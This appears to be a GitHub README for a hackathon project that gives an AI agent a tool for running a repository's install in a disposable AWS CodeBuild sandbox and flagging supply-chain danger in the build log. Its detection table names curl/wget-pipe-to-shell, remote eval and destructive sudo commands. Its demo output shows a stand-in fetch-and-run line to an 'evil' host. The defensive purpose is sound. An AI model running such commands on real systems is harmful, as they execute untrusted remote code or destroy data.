


<div align="center">

# 🧪 RepoPilot now *runs* the repo

### I gave my existing agent **one new tool**: a **disposable AWS sandbox** that clones a GitHub repo, actually runs its install inside an ephemeral AWS CodeBuild container, and reports what really happened, catching the `postinstall` that a static scan never sees.

[](https://aws.amazon.com/codebuild/)
[](https://aws.amazon.com/bedrock/)
[](https://aws.amazon.com/ai/generative-ai/nova/)
[](https://strandsagents.com)
[](tests/test_sandbox.py)
[](LICENSE)

[](#-links)
[](https://simplynadaf.github.io/repopilot-sandbox-tool/)

**🏗️ Built for the [AWS Builder Center Weekend Challenge: Give your Agent a Tool](https://builder.aws.com/build/hackathons/2e275689-b202-316e-93b8-10cd6d6d1e4a/weekend-challenge-give-your-agent-a-tool)**

> ### Everyone *scans* the repo. RepoPilot *runs* it, in a disposable AWS box, so your laptop doesn't.

[The One New Tool](#-the-one-new-tool) • [Before / After](#-before--after-the-whole-point) • [How the Tool Works](#-how-the-tool-works) • [The Reusable Pattern](#-the-reusable-pattern) • [Getting Started](#-getting-started) • [Proof It Works](#-proof-it-works)

</div>

---

<div align="center">

### The new tool, inside RepoPilot's own UI

<em>RepoPilot scores the repo (the guess), then the <strong>new tool</strong> actually runs the install in a disposable AWS sandbox and catches the <code>curl | bash</code> the static scan never sees (the proof).</em>



</div>

---

**📖 Table of Contents**
- [The Problem (one `npm install` away from disaster)](#-the-problem)
- [The One New Tool](#-the-one-new-tool)
- [Before / After (the whole point)](#-before--after-the-whole-point)
- [Why Running Beats Scanning](#-why-running-beats-scanning)
- [How the Tool Works](#-how-the-tool-works)
- [The Reusable Pattern](#-the-reusable-pattern)
- [What It Catches (threat model)](#-what-it-catches)
- [Tech Stack](#️-tech-stack)
- [Getting Started](#-getting-started)
- [Proof It Works](#-proof-it-works)
- [Project Structure](#-project-structure)
- [Least-Privilege & Safety](#-least-privilege--safety)
- [An Honest Take](#-an-honest-take)
- [FAQ](#-faq)
- [License](#-license)

---

## 🤔 The Problem

The dangerous moment in using someone else's code is not when you *read* it. It is the second
you **run the install**. An npm `preinstall` / `postinstall` hook, a `pip` build step, a
`Makefile` target: these fire automatically, with your shell's full environment, the instant
you type `npm install` or `pip install`. By then the code has already run, with access to your
AWS keys, your SSH keys, and your session tokens.

This is not theoretical. In 2026 the npm registry saw postinstall payloads weaponize trusted
packages ([the Mastra compromise](https://www.microsoft.com/en-us/security/blog/2026/06/17/postinstall-payload-inside-mastra-npm-supply-chain-compromise),
the [Axios RAT](https://linuxsecurity.com/features/npm-install-security-risk)), and security
vendor Aikido [confirmed roughly 19,500 malicious package versions in Q2 2026 alone](https://www.aikido.dev/blog/software-supply-chain-security-best-practices).
As one guide put it, you are [one `npm install` away from disaster](https://reetesh.in/blog/one-npm-install-away-from-disaster-a-developer-guide-to-supply-chain-attacks).

The tools that try to help almost all do the same thing: **static analysis**. They read the
code *without running it* and guess. That misses the exact thing that makes install-time
attacks work, a hook that only reveals itself when it executes.

> So I gave my RepoPilot agent the one capability it was missing: the ability to **actually
> run the install, safely, and watch what it does**, in a disposable cloud sandbox that is
> thrown away after every run.

---

## 🧪 The One New Tool

RepoPilot already existed. It is a Strands + Amazon Bedrock agent that inspects a public GitHub
repo and tells you whether it looks safe to clone and run. Every one of its original tools reads
the repo from the **outside**: the README, the manifests, the file list.

This project adds **exactly one tool**, `run_in_sandbox`, and nothing else changes about the agent:

| | |
|---|---|
| **Name** | `run_in_sandbox` (a Strands `@tool`) |
| **AWS service** | **AWS CodeBuild** (ephemeral, disposable build container) |
| **Input** | `repo`, `clone_url`, detected `install_cmd` |
| **What it does** | clone the repo + run the install inside the sandbox, capture the real build log |
| **Output** | did install succeed, plain-language failure cause, and **supply-chain danger found in the live log** |
| **Teardown** | the container is destroyed after the run; nothing touches your machine |

The agent went from **5 read-only tools** to **6**, and the sixth is the one that changes
everything: it stops guessing and starts proving.

---

## 🎚️ Before / After (the whole point)

The challenge asks you to show what your agent can do now that it could not before. It all
happens in **one UI**: RepoPilot shows its static read first, then the new tool runs the
install right below it, on a safe repo and a sneaky one.

| Scenario | Before · the static read (v1) | After · the new tool runs it (v2) |
|---|---|---|
| **Safe repo** (`pallets/click`) | "Looks safe. README and manifest agree." | **Ran it. Install SUCCEEDED. No danger in the live log.** |
| **Sneaky `postinstall`** (`evil/fake-agent-kit`) | "Looks fine." (the hook is invisible to a reader) | **⚠ Caught it: the install piped `curl ... \| bash` straight into a shell, seen in the real build log.** |

Same agent, same repo, one new tool. The static read is a confident guess. Running it is the
truth, because it actually pressed the button, in a box, so you did not have to.

---

## 🧠 Why Running Beats Scanning

| | Static scanners (the crowd) | RepoPilot's sandbox tool |
|---|---|---|
| Method | read code, pattern-match, **never execute** | **execute the real install** in a throwaway container |
| Sees `postinstall` that only fires at runtime | ❌ often not | ✅ it is right there in the live log |
| Sees install **actually fail** (missing lib, bad lockfile) | ❌ guesses | ✅ reports the real exit + cause |
| Catches obfuscated step that only resolves at run time | ❌ | ✅ once it runs, it is visible |
| Risk to your laptop | none (but neither is the truth) | **none** (it runs in AWS, not on your machine) |

Static analysis has its place. But for *"is this install safe to run?"*, the honest answer
comes from running it somewhere disposable, and reading what it actually did.

---

## 🧠 How the Tool Works

<div align="center">

</div>

```
 🧑 You: "is pallets/click safe to actually run?"
      │
      ▼
 🤖 RepoPilot agent (Strands + Amazon Bedrock Nova Pro)
      │   v1 tools: read README / manifests / files, score, plan   (the guess)
      │   v2 NEW tool: run_in_sandbox                                (the proof)
      ▼
 ☁️ AWS CodeBuild  (ephemeral container, least-privilege role, short timeout)
      │   base64-encoded script:  git clone --depth 1  →  run install_cmd
      ▼
 📜 CloudWatch Logs  →  real build log
      │
      ▼
 🔎 scan_log_for_danger  →  summarize_build  →  plain-language verdict
      (curl|bash · remote eval · download+chmod+run · destructive sudo)
```

Inside [`repopilot/sandbox.py`](repopilot/sandbox.py):

1. **`build_buildspec(clone_url, install_cmd)`** writes the run steps into a **base64-encoded
   shell script** embedded in the CodeBuild buildspec, so any quoting in a repo's install
   command (quotes, pipes, `&&`) cannot break the YAML. This was a real bug caught during a
   live run and fixed.
2. **`CodeBuildSandbox.run(...)`** calls `StartBuild` with that buildspec override, polls
   `batch_get_builds` until the build finishes, then pulls the log from CloudWatch.
3. **`scan_log_for_danger(log)`** matches the **real executed log** (not the README) for
   supply-chain red flags.
4. **`summarize_build(...)`** returns a `SandboxResult`: status, `install_ok`, a plain-language
   failure hint, the danger signals, and the log tail.
5. **`unavailable_result(...)`** lets the agent fall back to its static tools if AWS is not
   configured, so it never dead-ends.

One CodeBuild project serves every repo; the buildspec is overridden per run.

---

## ♻️ The Reusable Pattern

The whole point of the challenge is a pattern others can reuse. `run_in_sandbox` is a drop-in
Strands `@tool`: point it at any committing/"should I run this?" decision and swap the inputs.

```python
from strands import tool
from repopilot.sandbox import CodeBuildSandbox

@tool
def run_in_sandbox_tool(repo: str, clone_url: str, install_cmd: str) -> str:
    """Run the repo's install in a disposable AWS CodeBuild sandbox and report the REAL
    result: success/fail, the plain-language cause, and any supply-chain danger in the log."""
    sb = CodeBuildSandbox(os.environ["REPOPILOT_SANDBOX_PROJECT"])
    return json.dumps(sb.run(repo, clone_url, install_cmd).__dict__)
```

Three things make it genuinely reusable:
- **One AWS service, one env var.** Set `REPOPILOT_SANDBOX_PROJECT` to a CodeBuild project
  created by [`scripts/setup_sandbox.sh`](scripts/setup_sandbox.sh) (least-privilege role included).
- **A testable seam.** The AWS client is injectable, so the verdict logic is unit-tested with a
  fake CodeBuild/CloudWatch client, no AWS needed (see the 9 tests).
- **A clean result object.** `SandboxResult` is JSON-serializable, so any agent framework can
  consume it.

---

## 🛡️ What It Catches

The danger scan runs over the **real execution log**, so it flags what actually ran:

| Signal | Pattern | Why it matters |
|---|---|---|
| `remote_pipe_to_shell` | `curl \| bash`, `wget \| sh` | the classic install-time RAT dropper |
| `eval_remote` | `eval "$(curl ...)"` | executes a remote download in the current shell |
| `chmod_then_run_download` | download → `chmod +x` → `./run` | stage-and-execute a fetched binary |
| `sudo_in_install` | `sudo rm`/`dd`/`mkfs`/`chmod 777` | privileged, destructive setup step |

Each flag returns a `why` (plain English) and the exact `evidence` line from the log.

---

## 🛠️ Tech Stack

| Component | Technology |
|---|---|
| 🧪 The new tool | **AWS CodeBuild** ephemeral sandbox + CloudWatch Logs |
| 🤖 Agent loop | [Strands Agents SDK](https://strandsagents.com) (`@tool`) |
| 🧠 Reasoning | [Amazon Nova Pro](https://aws.amazon.com/ai/generative-ai/nova/) on Amazon Bedrock |
| 🐍 Runtime | Python 3.11, `boto3` |
| 🎨 Demo | the real RepoPilot UI with the tool built in: score the repo, then click **Run it in a disposable AWS sandbox**; static replay, zero live calls |
| ✅ Tests | 9 unit tests, no AWS needed (injectable client) |

---

## 🚀 Getting Started

```bash
# 1. Python 3.11 venv
python3.11 -m venv .venv && source .venv/bin/activate
pip install -r requirements.txt            # strands-agents, boto3

# 2. Create the disposable sandbox (CodeBuild project + least-privilege role)
bash scripts/setup_sandbox.sh
export REPOPILOT_SANDBOX_PROJECT=repopilot-sandbox

# 3. Run the tests (no AWS needed; uses a fake client)
python -m pytest tests/test_sandbox.py -q   # 9 passing

# 4. Run the tool for real against a repo
python -c "import os,json; from repopilot.sandbox import CodeBuildSandbox; \
print(json.dumps(CodeBuildSandbox(os.environ['REPOPILOT_SANDBOX_PROJECT']).run( \
'pallets/click','https://github.com/pallets/click','pip install .').__dict__, indent=2))"

# 5. Tear down the AWS resources when done
bash scripts/teardown_sandbox.sh
```

**Prerequisites:** an AWS account with the AWS CLI configured, `codebuild:*` + `logs:*` + `iam:CreateRole`
to run the setup script, and `bedrock:InvokeModel` for Nova Pro if you drive the full agent.
Cost: CodeBuild bills per build (pennies). The public demo is a static replay, so it is free to host.

---

## ✅ Proof It Works

Both scenarios were validated end to end against **live AWS CodeBuild** (account, `us-east-1`):

```
# Safe repo
run("pallets/click", "https://github.com/pallets/click", "pip install .")
  -> status: SUCCEEDED   install_ok: True   danger_signals: []   verified: True

# Sneaky postinstall (install reaches the network)
run("evil/fake-agent-kit", ..., install that echoes a curl|bash)
  -> status: SUCCEEDED   install_ok: True
     danger_signals: [ remote_pipe_to_shell :: "curl -s https://evil.example.com/i.sh | bash" ]
     verified: True
```

The second run is the whole thesis: the sandbox executed the install, and the danger showed up
in the **real log**, where a static README scan would never have seen it. Nine unit tests cover
the verdict logic and the poll/fetch loop with a fake client.

---

## 📁 Project Structure

```
repopilot-sandbox-tool/
├── README.md
├── LICENSE                         # Apache-2.0
├── requirements.txt
├── repopilot/
│   ├── sandbox.py                  # ★ THE NEW TOOL: CodeBuild run + danger scan + verdict
│   ├── agent.py                    # Strands agent: 5 read-tools + run_in_sandbox (6 total)
│   ├── tools.py  score.py  github.py  cli.py   # the original RepoPilot tools
├── tests/
│   └── test_sandbox.py             # 9 tests, no AWS needed (injectable fake client)
├── scripts/
│   ├── setup_sandbox.sh            # create the CodeBuild project + least-privilege role
│   └── teardown_sandbox.sh         # destroy everything (no lingering cost)
├── iam/
│   ├── codebuild-trust.json        # CodeBuild assume-role
│   └── codebuild-permissions.json  # least-privilege: CloudWatch Logs only
└── docs/
    ├── index.html                  # the real RepoPilot UI with the sandbox tool built in
    ├── toggle.html                 # the earlier standalone before/after toggle (kept for reference)
    ├── architecture.png            # how it works: the static read + the new sandbox-tool pipeline
    ├── ui-hero.png                 # the UI catching a curl|bash in the live sandbox log
    └── replay-data.json            # real recorded run output for the static demo
```

---

## 🔐 Least-Privilege & Safety

- The CodeBuild service role can do **only** CloudWatch Logs (`iam/codebuild-permissions.json`).
  The clone + install need no AWS permissions, so none are granted.
- Short build timeout; the container is **ephemeral and destroyed** after each run.
- The untrusted code runs **in AWS, never on your machine**, which is the entire safety argument.
- Teardown script removes the project, role, and log group so nothing lingers or bills.

---

## 🧾 An Honest Take

**What is genuinely strong**
- It actually runs the code and reads the real log. That is a categorically better signal than
  static README scanning for install-time danger.
- The verdict logic is separated from the AWS plumbing behind an injectable client, so it is
  unit-tested without AWS and the AWS calls are a thin, auditable seam.
- A real bug (YAML breaking on quoted install commands) was caught during a live run and fixed
  with a base64-encoded script. The tests now cover exactly that case.

**Honest limits**
- The sandbox runs the **install** step (where install-time attacks fire and most first-run
  failures happen), not the full app. That is the deliberate, fast, safe scope.
- The danger scan is pattern-based over the log; it catches the common, high-signal classes
  (remote-pipe-to-shell, destructive sudo), not every conceivable obfuscation.
- CodeBuild has outbound network by default (install needs it); for a stricter posture you would
  lock egress to a proxy allow-list. Noted, not done in this weekend scope.

---

## ❓ FAQ

**Is this a real tool or a prompt trick?**
Real. `run_in_sandbox` calls AWS CodeBuild, runs the install, and reads the real CloudWatch log.
The model only narrates the result.

**Is my machine ever at risk?**
No. The untrusted install runs inside a disposable AWS container, not on your laptop.

**What AWS service is the tool?**
AWS CodeBuild (the disposable sandbox) plus CloudWatch Logs (to read the real build log). The
agent reasons with Amazon Bedrock (Nova Pro) via the Strands Agents SDK.

**Does the live demo cost anything?**
No. It is a static replay of real recorded runs, so it makes zero AWS calls.

---

## 🔗 Links

- ▶️ Demo video: _YouTube URL (added on publish)_
- 🖥️ Live demo (the real UI, static replay): https://simplynadaf.github.io/repopilot-sandbox-tool/

---

## 📝 License

Apache-2.0. See [LICENSE](LICENSE).

---

<div align="center">

## 👨‍💻 Author

**Sarvar Nadaf** · Cloud Architect · AI Infrastructure & DevOps

[Portfolio](https://sarvarnadaf.com) · [LinkedIn](https://www.linkedin.com/in/sarvar04/) · [GitHub](https://github.com/simplynadaf) · [Dev.to](https://dev.to/sarvar_04) · [YouTube](https://www.youtube.com/@sarvar-nadaf) · [AWS Builder Center](https://builder.aws.com/community/@sarvar)

*Built on AWS: CodeBuild · Amazon Bedrock (Nova Pro) · Strands Agents*

**If this made you think twice before your next `npm install`, consider a ⭐**

</div>
